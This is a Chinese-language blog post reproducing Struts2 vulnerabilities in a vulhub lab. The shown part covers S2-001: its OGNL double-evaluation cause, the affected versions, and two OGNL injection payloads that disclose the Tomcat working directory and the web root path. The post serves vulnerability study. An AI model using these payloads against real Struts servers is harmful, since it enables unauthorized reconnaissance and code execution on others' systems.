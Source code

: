 ```yaml
---
layout:     post
title:      Struts2漏洞合集
subtitle:   Struts2漏洞
date:       2020-12-16
author:     heria
header-img: img/post-bg-unix-linux.jpg
catalog: true
tags:
---
```


## 前言

Apache Struts2 是一个基于MVC设计模式的Web应用框架，会对某些标签属性（比如 id）的属性值进行二次表达式解析，因此在某些场景下将可能导致远程代码执行。文中复现了部分S2系列漏洞，部分内容摘自网络。

## 0X01 S2-001复现

**原理**：该漏洞因用户提交表单数据并且验证失败时，后端会将用户之前提交的参数值使用OGNL表达式%{value}进行解析，然后重新填充到对应的表单数据中。如注册或登录页面，提交失败后一般会默认返回之前提交的数据，由于后端使用%{value}对提交的数据执行了一次OGNL 表达式解析，所以可以直接构造 Payload进行命令执行。

**影响版本**：Struts 2.0.0 - 2.0.8

**环境搭建**：vulhub s2-001

![image-20201216130920752](https://raw.githubusercontent.com/heriachen/cloudimg/main/img2/image-20201216130920752.png)

测试是否存在漏洞

![image-20201216131130044](https://raw.githubusercontent.com/heriachen/cloudimg/main/img2/image-20201216131130044.png)

submit后返回

![image-20201216131155039](https://raw.githubusercontent.com/heriachen/cloudimg/main/img2/image-20201216131155039.png)

获取tomcat执行路径poc

```
%{"tomcatBinDir{"+@java.lang.System@getProperty("user.dir")+"}"}
```

![image-20201216131356193](https://raw.githubusercontent.com/heriachen/cloudimg/main/img2/image-20201216131356193.png)

获取web路径 

```
 %{#req=@org.apache.struts2.ServletActionContext@getRequest(),#response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#response.println(#req.getRealPath('/')),#response.flush(),#response.close()} 
```

![image-20201216131525241](https://raw.githubusercontent.com/heriachen/cloudimg/main/img2/image-20201216131525241.png)
